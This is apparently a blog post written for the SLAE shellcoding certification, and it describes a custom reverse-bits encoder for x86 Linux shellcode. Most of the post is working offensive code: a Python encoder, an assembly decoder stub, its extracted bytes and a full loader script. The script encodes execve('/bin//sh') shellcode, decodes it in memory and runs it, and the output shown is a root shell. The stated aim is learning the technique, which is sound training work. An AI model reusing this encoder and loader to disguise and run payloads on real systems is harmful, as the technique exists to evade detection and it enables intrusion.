 ```yaml
---
layout: single
title: SLAE Assignment 4 - Reverse Bits Encoder
date: 2020-5-07
classes: wide
header:
  teaser: /assets/images/slae/SHELLCODING32.png
tags:
    - Shellcoding
    - Linux
    - x86
    - SLAE
---
```


![](/assets/images/slae/SHELLCODING32.png)

## Introduction
This is the fourth post of the SLAE exam assignments serie.  

The goal of this assignement is to create a custom encoding scheme and to use it in a PoC (Proof of Concept) with an execve shellcode.

All the source code for this assignment can be found on my [github repository](https://github.com/skr0x/SLAE/tree/master/Assignment-04-Reverse_bits_encoder)

## Reverse Bits Encoder

### Overview

For this assignment, I've chosen to create a reverse bits encoder, its principle is very simple, it take each byte one after the other and reverse their bits

For example, the hexadecimal number 59 (opcode of 'pop ecx' instruction) is 01011001 in binary, 
so after reversing of its bits, it will become 10011010, or 9A in hexadecimal.

### Implementation

The implementation is also very simple, here is the encoder made with Python :

```python
# Convert the shellcode string into a bytes object
shellcode_b = bytes.fromhex(shellcode.replace('\\x', ''))

# Initialize encoded_shellcode, to store the bytes after encoding
encoded_shellcode = ""

# For each byte of the shellcode
for b in shellcode_b:

    # Convert the byte in a string representing its binary value, 
    # with a fixed size of 8 characters and padding with 0 {:08b}
    #
    # Reverse the string order with the slicing technique [::-1] then append "0b" to it
    # so it can be identified like a valid binary number representation
    #
    # Convert the binary representation string into an integer int(str, base=2)
    #
    # Then convert this integer into a string representation of its hexadecimal value, 
    # size of 2 characters and padding with 0 {:02x}
    #
    # Append "\\x" and add it to the encoded_shellcode string
    #
    encoded_shellcode += "\\x"+"{:02x}".format(int("0b"+"{:08b}".format(b)[::-1], base=2))
```

And here is the decoder stub source code :

```nasm
_start:
    jmp    decoder      ; jmp call 'pop' technique to get the memory address after the call
                        ; this will be the address of the encoded shellcode

decode:
    mov    ebx,[esp]    ; ebx will point the encoded shellcode
    xor    ecx,ecx      ; ecx set to 0
    mov    cl,0x21      ; The encoded shellcode length used for the loop counter
                        ; (will be calculated and inserted in function of the chosen shellcode to execute)

next_byte:
    push   ecx          ; Save the main loop counter on the stack
    mov    cl,0x08      ; Set the ecx to 8, the bit counter

next_bit:
    shr byte [ebx],1    ; Shift the bits of the byte pointed by ebx to the right 
			; and copy the lower bit in the Carry Flag (CF)
    adc    al,al        ; add al with al and the CF, in other words shift all bits to the left (al * 2)
			; and insert the last bit pointed by ebx to the right			
			; So in the end, all the bit of the byte pointed by ebx will be pushed to the right 
			; and inserted in al from the right and moved to the left, in the reverse order

    loop   next_bit     ; Process next bit of current byte 

    mov byte [ebx], al  ; copy the decoded byte at the memory address pointed by ebx
    inc    ebx          ; point ebx to the next encoded shellcode byte

    pop    ecx          ; Pop the main loop counter in ecx
    loop   next_byte    ; Process next byte

    ret                 ; Return to the start of the decoded shellcode

decoder:    
    call   decode       ; Push the memory address of the next instruction to the stack
                        ; And jump to the decoder

; The encoded shellcode will be added here in the python script
```

Then we compile it and extract the shellcode :

```plaintext
root@kali:~# ./compile.sh reverse-encoder
[x] Assembling...
[x] Linking...
[x] Done !

Shellcode : 
"\\xeb\\x17\\x8b\\x1c\\x24\\x31\\xc9\\xb1\\x21\\x51\\xb1\\x08\\xd0\\x2b\\x10\\xc0\\xe2\\xfa\\x88\\x03\\x43\\x59\\xe2\\xf1\\xc3\\xe8\\xe4\\xff\\xff\\xff"
```

And we insert it in the Python script after a little update, 
the ninth byte is the encoded shellcode size, so we need to replace it with {0} and we add {1} at the end, where the encoded shellcode will be.

```python
#!/usr/bin/python3
from ctypes import CDLL, CFUNCTYPE, c_char_p, cast
from sys import argv

libc = CDLL("libc.so.6")

# Max length : 255 bytes
# Execve("/bin//sh", null, null) 
shellcode = "\\x31\\xc9\\xf7\\xe1\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\xb0\\x0b\\xcd\\x80"

#    xor ecx,ecx
#    mul ecx
#
#    push eax
#    push 0x68732f6e
#    push 0x69622f2f 
#
#    mov ebx, esp
#    mov al, 0x0b
#    int 0x80

# Max payload to encode length : 255 bytes
decoder = "\\xeb\\x17\\x8b\\x1c\\x24\\x31\\xc9\\xb1{0}\\x51\\xb1\\x08\\xd0\\x2b\\x10\\xc0\\xe2\\xfa\\x88\\x03\\x43\\x59\\xe2\\xf1\\xc3\\xe8\\xe4\\xff\\xff\\xff{1}"

# Convert the shellcode string into a bytes object
shellcode_b = bytes.fromhex(shellcode.replace('\\x', ''))

# Initialize encoded_shellcode, to store the bytes after encoding
encoded_shellcode = ""

# For each byte of the shellcode
for b in shellcode_b:

    # Convert the byte in a string representing its binary value, 
    # with a fixed size of 8 characters and padding with 0 {:08b}
    #
    # Reverse the string order with the slicing technique [::-1] then append "0b" to it
    # so it can be identified like a valid binary number representation
    #
    # Convert the binary representation string into an integer int(str, base=2)
    #
    # Then convert this integer into a string representation of its hexadecimal value, 
    # size of 2 characters and padding with 0 {:02x}
    #
    # Append "\\x" and add it to the encoded_shellcode string
    #
    encoded_shellcode += "\\x"+"{:02x}".format(int("0b"+"{:08b}".format(b)[::-1], base=2))

# Insert the string representation of the shellcode length hexadecimal value
# And the encoded_shellcode into the decoder payload
payload = decoder.format("\\x" + "{:02x}".format(len(shellcode_b)), encoded_shellcode)

# Convert the payload into a bytes object
payload_b = bytes.fromhex(payload.replace('\\x', ''))

print("Shellcode length : {}".format(len(shellcode_b)))
print("Shellcode with decoder stub length : {}".format(len(payload_b)), end="\n\n")
print("Encoded shellcode :")
print(encoded_shellcode)
print(encoded_shellcode.replace('\\x', ',0x')[1:], end="\n\n")

print("Encoded shellcode with decoder stub :")
print(payload, end="\n\n")

print("Exec shellcode...")

# Execute the payload
c_shell_p = c_char_p(payload_b)

launch = cast(c_shell_p, CFUNCTYPE(c_char_p))

launch()
```

We will test it with an execve shellcode, but we can easily replace it by the shellcode we want.
The only constraint is to not use a shellcode bigger than 255 bytes, because the size is coded on one byte in the decoder.

```plaintext
root@kali:~/Desktop/shared/slae-exam/assignment-04# ./reverse-encoder.py 
Shellcode length : 21
Shellcode with decoder stub length : 51

Encoded shellcode :
\x8c\x93\xef\x87\x0a\x16\x76\xf4\xce\x16\x16\xf4\xf4\x46\x96\x91\xc7\x0d\xd0\xb3\x01
0x8c,0x93,0xef,0x87,0x0a,0x16,0x76,0xf4,0xce,0x16,0x16,0xf4,0xf4,0x46,0x96,0x91,0xc7,0x0d,0xd0,0xb3,0x01

Encoded shellcode with decoder stub :
\xeb\x17\x8b\x1c\x24\x31\xc9\xb1\x15\x51\xb1\x08\xd0\x2b\x10\xc0\xe2\xfa\x88\x03\x43\x59\xe2\xf1\xc3\xe8\xe4\xff\xff\xff\x8c\x93\xef\x87\x0a\x16\x76\xf4\xce\x16\x16\xf4\xf4\x46\x96\x91\xc7\x0d\xd0\xb3\x01

Exec shellcode...
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

And it's the end of this assignement ! :)


***This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
Student ID: PA-14186***

